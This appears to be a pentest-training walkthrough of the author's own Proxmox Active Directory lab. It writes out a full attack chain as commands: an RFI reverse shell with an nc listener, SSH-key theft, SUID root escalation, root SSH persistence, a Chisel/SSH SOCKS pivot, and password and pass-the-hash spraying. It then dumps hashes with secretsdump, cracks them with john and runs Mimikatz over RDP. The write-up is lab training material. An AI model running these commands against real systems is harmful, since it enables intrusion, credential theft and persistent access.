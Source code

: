 ## **The Environment**

I'll be operating in this environment: [https://benheater.com/hack-your-proxmox-ad-lab/](https://benheater.com/hack-your-proxmox-ad-lab/)  
Albeit, with a few additions and minor changes to the lab.

## **External**

### **Pentest Scope, Objectives, and Rules of Engagement**

**Scope**

- `10.9.9.0/24` | `cyber.range` (public facing)
- `10.80.80.0/24` | `ad.lab` (internal domain)

**Objectives**

- Own the domain

**RoE**

- Chaos, total free for all!

### **Plan of Action**

==A lot of this is going to seem a bit contrived, as I've already laid out the path to own the domain. I have only done this in the interest of time.==

**Scan the external network for IP addresses**

fping -ag 10.9.9.0/24

**Run a port scan on any live hosts**
![[Pasted image 20240104192105.png]]

**Run a port scan on any live hosts**
![[Pasted image 20240104192133.png]]


**Scavenge for any potential usernames / passwords and brute force any web servers**  
Make a note of any information and keep it in our back pocket

```
gobuster dir -u http://10.9.9.199 -w /home/ben/Pentest/Training/PJPT_Sessions/2024-Jan-04/gobuster-list.txt -x php,html,txt -r -o /home/ben/Pentest/Training/PJPT_Sessions/2024-Jan-04/gobuster-80.txt -b 403,404
```

**Get a reverse shell on the web server using RFI [using this reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).**

```
sudo python3 -m http.server 80
```

```
sudo rlwrap nc -lnvp 443
```

**Post-exploit enumeration borrowing bits and pieces of [my CTF methodology](https://benheater.com/my-ctf-methodology/)**  

Note the IP configuration, ARP table, Routes, Bound Ports

```
1 ip addr

2 ip neigh

3 ip route

4  netstat -plutan

```


Check for interesting files

```
1 find /home -type f 2>/dev/null
```



Make a local copy of the SSH private key and SSH in as `localuser`

```
1 cat /home/localuser/localuser_ssh_key

2 chmod 600 /home/ben/Pentest/Training/PJPT_Sessions/2024-Jan-04/localuser_ssh_key

3 ssh -i localuser_ssh_key localuser@10.9.9.199

```

Find SUID file for privilege escalation

```
1 find / -type f -user root -perm /4000 2>/dev/null
```

Escalate privileges to `root` user

```
1 /bin/bash -ip

2 id
```





Set up Persistence as the root user

```
# On Kali
ssh-keygen -t rsa -b 4096 -f /tmp/root_persistence -C "" -N ""
mv /tmp/root_persistence /home/ben/Pentest/Training/PJPT_Sessions/2024-Jan-04
# Copy the public key to clipboard
cat /tmp/root_persistence.pub
# On target with escalated privileges
echo 'public_key_string_here' >> /root/.ssh/authorized_keys
# Test private key
ssh -i /home/ben/Pentest/Training/PJPT_Sessions/2024-Jan-04/root_persistence root@10.9.9.199
```

We are on a **dual-homed** host with two interfaces on distinct subnets. Everything we have done to this point is the same regardless if this target where we've established our foothold is domain-joined or not.  
  
However, **as an added bonus**, I have joined this Linux host to my Active Directory domain and want to demonstrate some enumeration steps that can help you gather more info.

**Check if the Linux host is domain-joined and enumerate further**

```
/usr/sbin/realm list -a
/usr/sbin/adcli info <realm_domain_name>
```

Great! Looks like it is, in fact, joined to the `ad.lab` domain. Let's reference more of the [enumeration steps here](https://benheater.com/my-ctf-methodology/#:~:text=Domain%20Users%20(if%20domain%2Djoined)).

Back to the rest of the action plan...

**Set up the Reverse SOCKS Proxy Using Both [SSH](https://notes.benheater.com/books/network-pivoting/page/ssh-port-forwarding) and** [**Chisel**](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel)  
Just for demonstration purposes! You don't have to use both.

Chisel on Kali

```
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz -O chisel.gz
gunzip chisel.gz
chmod +x chisel
sudo ./chisel server --port 8080 --reverse -v &
```

Chisel on Target

```
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz ~/chisel.gz
gunzip ~/chisel.gz
chmod +x ~/chisel.gz
./chisel client 10.6.6.6:8080 R:50001:socks
```

SSH

```
ssh \
-o "UserKnownHostsFile=/dev/null" \
-o "StrictHostKeyChecking=no" \
-i root_persistence -f -N -D 127.0.0.1:50002 \
root@10.9.9.199
```


**Add Proxies to Proxychains configuration  
**Just use comments to switch between the two

```
1 sudo nano /etc/proxychains4.conf
```

**Nmap Scan through the SOCKS proxy**

```
1 sudo proxychains -q nmap -Pn -sT --top-ports 1000 -oA ad_nmap_scan 10.80.80.0/24
```

**Pass around the password of our known credential**

```
1 crackmapexec smb 10.80.80.0/24 -u 'testuser123' -p 'TestUser1!' -d ad.lab
```

**Discover that we have local admin on 10.80.80.3, so dump hashes**

```
1 impacket-secretsdump 'testuser123:TestUser1!@10.80.80.3'
```

**Note the** `Template` **user, which is a local administrator, password may be repeated**  

Notice the `Template` user's was found in the computer's SAM database  
This is where we really need to reinforce this idea of local vs network logons

```
1 crackmapexec smb 10.80.80.0/24 -u 'Template' -H 66216d8fd712c24c18dfa588cfdeca75 --local-auth
```

Have a hand at cracking the hash

```
1 echo '66216d8fd712c24c18dfa588cfdeca75' > hash

2 john --format=NT --wordlist=crack_hashes.txt hash
```

**RDP into 10.80.80.4 and transfer Mimikatz to dump LSA**

```
1 xfreerdp /proxy:socks5//127.0.0.1:50001 /v:10.80.80.4 /u:'Template' /p:'Template123!' /drive:.,kali-share +clipboard /size:90%
```

**Crack the Domain Administrator's hash**

```
1 echo 'hash_here' > da_hash

2 john --format=NT --wordlist=crack_hash.txt hash

```
## **Internal**  

### **Pentest Scope, Objectives, and Rules of Engagement**

**Scope**

- `10.80.80.0/24` | `ad.lab` (internal domain)

**Objectives**

- Own the domain  
    

**RoE**

- Chaos, total free for all!

### **Kali as a Dropbox on the Target Network**

- Largely follows the same procedure as the external just a different starting point
- Demo some of the attacks shown here